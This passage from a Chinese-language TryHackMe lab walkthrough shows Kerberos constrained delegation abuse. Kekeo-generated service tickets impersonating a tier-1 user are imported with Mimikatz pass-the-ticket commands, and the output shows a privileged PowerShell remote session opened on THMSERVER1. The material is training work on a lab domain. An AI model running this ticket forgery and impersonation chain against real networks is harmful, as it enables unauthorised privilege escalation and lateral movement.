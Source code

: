 ```shell title="Kekeo"
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

参数解释：

- `tgt` - 我们在上一步中生成的 TGT。
- `user` - 我们想要冒充的用户。由于 t2_账户在工作站上具有管理访问权限，可以合理推断 t1_账户将具有服务器的管理访问权限，因此选择一个你想要冒充的 t1_账户。
- `service` - 我们想要使用委派冒充的服务。首先为 HTTP 服务生成一个 TGS。然后，我们可以再次运行相同的命令为 WSMAN 服务生成 TGS。

再次运行命令，这次为 WSMAN 服务。现在我们有了这两个 TGS 票证，我们可以使用 Mimikatz 来导入它们：

```shell title="Mimikatz"
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK
```

你可以退出 Mimikatz 并运行 klist 来验证票证是否已导入。现在票证已经导入，我们终于可以在 THMSERVER1 上创建我们的 PSSession 了：

```shell
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
```

通过利用了受限委派，现在我们拥有了对 THMSERVER1 的特权访问！

:::info Answer the questions below
